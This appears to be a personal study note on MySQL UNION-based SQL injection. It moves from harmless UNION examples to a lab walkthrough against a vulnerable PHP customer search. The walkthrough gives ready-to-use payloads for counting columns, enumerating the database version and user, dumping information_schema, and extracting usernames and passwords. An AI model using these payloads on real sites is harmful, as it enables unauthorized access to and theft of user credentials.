 
# MySQL UNION Attack
When an attacker uses the [SQL](/coding/languages/SQL.md) `UNION` keyword to retrieve data from more than one table in the database. This vuln should be tested for whenever a [SQLi](SQLi.md) resultes in the returned balue *being displayed by the application* in response. 
## UNION keyword
In SQL the `UNION` keyword allows you to execute more than one `SELECT` query and append the results to the original query. The injected `UNION` query has to have the *same number* of columns as the original query and the data types need to be *compatible* with each other.
### Attack requirements
1. The # and order of columns which appear in all SELECT statements must be the same
2. The data types of the columns must be the same or compatible
#### Sample Tables:
```sql
DROP TABLE IF EXISTS t1;
DROP TABLE IF EXISTS t2;

CREATE TABLE t1 (
    id INT PRIMARY KEY
);

CREATE TABLE t2 (
    id INT PRIMARY KEY
);

INSERT INTO t1 VALUES (1),(2),(3);
INSERT INTO t2 VALUES (2),(3),(4);
```
##### Return result sets from `t1` and `t2`
```sql
-- Query:
SELECT id FROM t1 UNION SELECT id FROM t2;

-- Output:
+----+
| id |
+----+
|  1 |
|  2 |
|  3 |
|  4 |
+----+
4 rows in set (0.00 sec)
```
## Example
If a website has the following pre-configured SQL query:
```php
$query = "SELECT * from customers where name like '".
$_POST["search_input"]."%'";)
```
This query fetches all the records from a table called `customers` and uses the `like` keyword to search it for any name values containing the input (supplied by the user which is followed by zero or any number of characters (specified by `%`)). The percent sign `%` is a *wildcard* character used with the `like` keyword. It represents 1, zero, or multiple characters in a text or string search.

For this example, pretend that the vulnerable web application has a customer search portal which will return names of customer's along with their phone number, address, and country. Before attacking the portal with a UNION attack we need to know *the exact number of columns* present in the table. Even if the web application is showing us four columns (name, phone, address, country) it may not be showing us *all of the columns* in the actual table.
### Discovering Number of Columns
To discover the exact number of columns in the table, we can inject the following query:
```sql
' ORDER BY 1-- //
```
This statement will cause the results to be ordered by a specific column *but will fail if the column doesn't exist*. For example, if the table has five columns, then `ORDER BY 6` will return an error since there isn't a sixth column to return. The error will likely read something like:
```sql
Unknown column '6' in 'order clause'
```
Now we know there are 5 total columns in the table. Next we need to determine which ones are displayed normally.
### Discovering Which Columns are Displayed
To discover which columns are normally displayed, we can use the `UNION` keyword:
```sql
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```
Using the `%` and a single quote will allow us to retrieve *all of the data* from the `customers` table. The `%'` will *close off the search parameter* in the web application's code (see above). 
![](../../../cybersecurity-pics/UNION-attack-1.png)
The query essentially appended the original query with 5 values that we created, which you can see at the bottom of each column. Now we know that the first column in the table is the only column we can't see. This is normal because the first column is *usually reserved for each item's ID*. 
### Enumerating with UNION
Now we can use a UNION attack to enumerate more information from the database and MySQL service running it:
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
In this injection, we're asking for 5 pieces of information to be appended to the original query. `database()` should give us the current database's name. `user()` should return the current user. `@@version` should tell us the version of MySQL running. Then we give two `null` values as placeholders (since the UNION query statement has to return the same number of columns as the query its appended to).
![](../../../cybersecurity-pics/UNION-attack-2.png)
The first column (where we expect to see `database`) does not show, so we need to fix our query and put the `database()` function in one of the `null` positions instead. Additionally, we don't need the `%` sign anymore since we've figured out how many columns there are and which ones are showing:
```sql
' UNION SELECT null, null, database(), user(), @@version -- //
```
Now, we'll only see the results from our appended query instead of the entire database (since we took out the `%`):
![](../../../cybersecurity-pics/UNION-attack-3.png)
### Enumerating with UNION and the Information Schema
Now that we've confirmed the web app is vulnerable to UNION attacks, we can leverage this vuln to verify whether *other tables* are present in the database. We can do this by enumerating the database's *[`information_schema`](../../../../CLI-tools/linux/mysql.md#`information_schema`)* (a table in every [MySQL](../../../../CLI-tools/linux/mysql.md) server which holds metadata about the MySQL server). 

We can use `information_schema` to check its `columns` table. This will tell us what columns exist in each table on the server. In our injected query, we'll ask for each table's name, column names, and table schema. We'll leave the first and fifth items set to null:
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![](../../../cybersecurity-pics/UNION-attack-4.png)
The output tells us that the database `offsec` has two tables, `users` and `customers`. The `customers` table has 5 columns (as we already determined), and the `users` table has 4: `id`, `username`, `password`,  and `description`.
### Using UNION to Dump Additional Databases
Now we can craft an injected query to dump the `users` table, since we obviously want all of the user's paswords!
```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```
![](../../../cybersecurity-pics/UNION-attack-5.png)


> [!Resources]
> - [My SQL Tutorial: Union Attacks](https://www.mysqltutorial.org/sql-union-mysql.aspx/)
> - [Port Swigger](https://portswigger.net/web-security/sql-injection/union-attacks)
> - [MySQL Documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html)

